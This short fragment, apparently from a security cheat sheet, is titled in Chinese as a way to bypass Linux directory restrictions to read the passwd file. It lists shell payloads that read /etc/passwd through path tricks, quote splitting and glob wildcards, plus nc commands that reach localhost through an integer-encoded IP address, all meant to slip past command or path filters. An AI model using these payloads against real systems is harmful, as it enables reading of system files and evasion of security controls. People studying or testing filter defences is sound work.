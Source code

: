 - linux bypass目录限制读取passwd：

  ```
  cat /etc/passwd
  cat /proc/../etc/./passwd
  cat ///etc////passwd
  cat /e't'c/p'a's's'w'd'
  cat /???/????wd
  cat /???/????w'd'
  cat /proc/self/root/etc/passwd

  nc 127.0.0.1 80
  nc 2130706433 80
  ```

  ​